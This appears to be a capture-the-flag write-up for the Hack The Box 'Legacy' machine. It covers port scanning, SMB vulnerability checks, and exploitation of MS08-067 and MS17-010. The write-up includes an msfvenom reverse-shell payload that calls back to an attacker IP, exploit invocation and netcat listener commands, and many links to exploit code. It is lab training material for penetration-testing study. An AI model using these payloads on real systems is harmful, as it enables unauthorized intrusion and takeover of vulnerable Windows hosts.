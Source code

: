 # Legacy 

**Links:** [1](https://www.hackthebox.com/machines/Legacy)  [2](https://app.hackthebox.com/machines/Legacy)

**Machine ip:** 10.10.10.4

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/0a9f2486-def8-4367-a7c3-52d48f4ae128)


## Reconnaissance
```
sudo masscan -p1-65535,U:1-65535 --rate=1000 10.10.10.4 -e tun0 > ports

ports=$(cat ports | awk -F " " '{print $4}' | awk -F "/" '{print $1}' | sort -n | tr '\n' ',' | sed 's/,$//')

sudo nmap -Pn -n -sV -sC -O -p$ports 10.10.10.4 --open

sudo nmap -Pn -n -sV -sC -sU -O -p$ports 10.10.10.4 --open
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/f9fb11ab-3893-4b05-9445-a3025431d537)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/56aa3613-f795-4f39-ae91-c937740f5ff4)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/3b75c385-baa0-4aae-b31d-fae7e20d48c1)

+ Check **Finding XP Pro SP3 as "Windows-2000-LAN-Manager":** https://community.cisco.com/t5/archived-small-business-support/finding-xp-pro-sp3-as-quot-windows-2000-lan-manager-quot/td-p/3270323.


## Enumeration
```
ls -l /usr/share/nmap/scripts/smb* | grep vuln

nmap --script smb-vuln* -p 139,445 10.10.10.4
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/a4ec1a7b-5542-4821-88b7-9220180785e1)


## Exploitation & Gaining Access & Privilege Escalation

### Method 1: [CVE-2008-4250 (ms08-067) / Conficker](https://0xdf.gitlab.io/2019/02/21/htb-legacy.html#ms-08-067)
+ Download python exploit from **ms08-067: CVE-2008-4250** [1](https://github.com/jivoi/pentest/blob/master/exploit_win/ms08-067.py) [2](https://raw.githubusercontent.com/jivoi/pentest/master/exploit_win/ms08-067.py)
+ Take this shellcode into the script, and replace it with the default.
+ Update the shellcode in the exploit with our own. Copy the shellcode from **shellcode.txt** and overwrite the payload in the exploit.

```
# On the kali attack vm:
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.24 LPORT=4444 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f python -v shellcode -a x86 --platform windows -o shellcode.txt

python ms08-067.py 10.10.10.4 6 445

nc -lnvp 4444

# **On the target machine:**
cd Documents and Settings\john\Desktop

type user.txt

cd C:\Documents and Settings\Administrator\Desktop

type root.txt

```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/78dea999-1856-426b-afe3-69aad9bab9de)

+ Transfer **whoami.exe** from **/usr/share/windows-binaries/** using **smbserver.py** since XP doesn't have a whoami binary or command.
+ Check if get the NT AUTHORITY\SYSTEM level access.

```
# On the kali attack vm:
smbserver.py win /usr/share/windows-binaries/

# On the target machine:
\\10.10.14.24\win\whoami.exe
```

+ Get both user and root flags.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/168b61ac-c71d-4f60-8568-a9e1223f669a)


### Method 2: CVE-2017-0143 (ms17-010) / Eternal Blue / Shadow Brokers [1](https://rana-khalil.gitbook.io/hack-the-box-oscp-preparation/windows-boxes/legacy-writeup-w-o-metasploit#d6e0) [2](https://0xdf.gitlab.io/2019/02/21/htb-legacy.html#ms-17-010)
+ Try [1](https://github.com/helviojunior/MS17-010) [2](https://github.com/helviojunior/MS17-010/blob/master/send_and_execute.py)
+ The exploit didn't work on me due to the below impacket errors:
  + [no module named impacket](https://forum.hackthebox.com/t/impacket-module-not-found-but-installed/3561)
  + [package 'dsinternals' requires a different python 2.7.18 not in ' =3.4'](https://medium.com/@CustosClarus/thank-you-i-have-been-able-to-open-the-virtual-env-with-source-impacket-venv-bin-activate-d5945901ce0c)
+ **Alternatively**, [3](https://github.com/c0d3cr4f73r/MS17-010_CVE-2017-0143)  [4](https://github.com/worawit/MS17-010)


### Method 3: CVE-2008-4250 (ms08-067) / Conficker -> Metasploit Solution
+ **windows/smb/ms08_067_netapi:** https://www.rapid7.com/db/modules/exploit/windows/smb/ms08_067_netapi/
  + https://github.com/7h3rAm/7h3rAm.github.io/blob/master/_posts/htb-legacy.md
  + https://readmedium.com/en/https:/theosintion.medium.com/htb-retired-box-walkthrough-legacy-147bbcc9ff02
  + https://medium.com/@JAlblas/hackthebox-legacy-walkthrough-cb067c572a50


### Method 4: CVE-2017-0143 (ms17-010) / Eternal Blue / Shadow Brokers -> Metasploit Solution
+ **exploit/windows/smb/ms17_010_psexec:** https://ethicalhacs.com/legacy-hackthebox-walkthrough/
  + https://bri5ee.sh/hack%20the%20box/2021/05/24/htb-legacy.html
  + https://vostdev.wordpress.com/2021/01/17/htb-legacy-walk-through/
  + https://slv3rfx.com/posts/htb-legacy-writeup/


# References & Alternatives
+ https://vvmlist.github.io/#legacy
+ **ms08-067 / ms17-010:** https://0xdf.gitlab.io/2019/02/21/htb-legacy.html
  + https://systemweakness.com/oscp-preparation-hack-the-box-2-legacy-557dc3f0e384
+ **ms17-010:** https://rana-khalil.gitbook.io/hack-the-box-oscp-preparation/windows-boxes/legacy-writeup-w-o-metasploit
  + https://medium.com/@toneemarqus/legacy-hackthebox-walkthrough-2023-tonee-55189d9f6035
+ **metasploit exploit/windows/smb/ms17_010_psexec:** https://ethicalhacs.com/legacy-hackthebox-walkthrough/
  + https://slv3rfx.com/posts/htb-legacy-writeup/
  + https://bri5ee.sh/hack%20the%20box/2021/05/24/htb-legacy.html
  + https://vostdev.wordpress.com/2021/01/17/htb-legacy-walk-through/
+ **ms08-067:** https://benheater.com/hackthebox-legacy/
+ **metasploit windows/smb/ms08_067_netapi:** https://www.rapid7.com/db/modules/exploit/windows/smb/ms08_067_netapi/
  + https://github.com/7h3rAm/7h3rAm.github.io/blob/master/_posts/htb-legacy.md
  + https://readmedium.com/en/https:/theosintion.medium.com/htb-retired-box-walkthrough-legacy-147bbcc9ff02
  + https://medium.com/@JAlblas/hackthebox-legacy-walkthrough-cb067c572a50
  + https://www.freecodecamp.org/news/keep-calm-and-hack-the-box-legacy/
  + https://www.hackingarticles.in/hack-the-box-challenge-legacy-walkthrough/


## CVE Scripting
+ **CVE-2008-4250 (ms08-067) / Conficker:** https://www.exploit-db.com/exploits/40279
    + https://nvd.nist.gov/vuln/detail/cve-2008-4250
    + https://learn.microsoft.com/en-us/security-updates/securitybulletins/2008/ms08-067
    + https://www.rapid7.com/blog/post/2014/02/03/new-ms08-067/
    + https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250
  + https://github.com/jivoi/pentest/blob/master/exploit_win/ms08-067.py
  + https://raw.githubusercontent.com/jivoi/pentest/master/exploit_win/ms08-067.py
+ **CVE-2017-0143 (ms17-010) / Eternal Blue / Shadow Brokers:** https://www.exploit-db.com/exploits/43970
  + https://github.com/helviojunior/MS17-010
    + https://github.com/helviojunior/MS17-010/blob/master/send_and_execute.py
  + https://github.com/c0d3cr4f73r/MS17-010_CVE-2017-0143
  + https://github.com/worawit/MS17-010


## Tools
+ **windows-binaries / whoami.exe:** /usr/share/windows-binaries
  + https://0xdf.gitlab.io/2019/02/21/htb-legacy.html#beyond-root---whoami
+ **smbserver.py:** /usr/share/doc/python3-impacket/examples/smbserver.py
  + https://0xdf.gitlab.io/2019/02/21/htb-legacy.html#beyond-root---whoami


## Technical Knowledge
+ **139,445 - Pentesting SMB:** https://book.hacktricks.xyz/network-services-pentesting/pentesting-smb
+ **how to exploit the Eternal Blue vulnerability without using Metasploit:** https://ethicalhackingguru.com/how-to-exploit-ms17-010-eternal-blue-without-metasploit/


## Problems Solution
+ [no module named impacket](https://forum.hackthebox.com/t/impacket-module-not-found-but-installed/3561)
+ [package 'dsinternals' requires a different python 2.7.18 not in ' =3.4'](https://medium.com/@CustosClarus/thank-you-i-have-been-able-to-open-the-virtual-env-with-source-impacket-venv-bin-activate-d5945901ce0c)


## For More
+ **Finding XP Pro SP3 as "Windows-2000-LAN-Manager":** https://community.cisco.com/t5/archived-small-business-support/finding-xp-pro-sp3-as-quot-windows-2000-lan-manager-quot/td-p/3270323
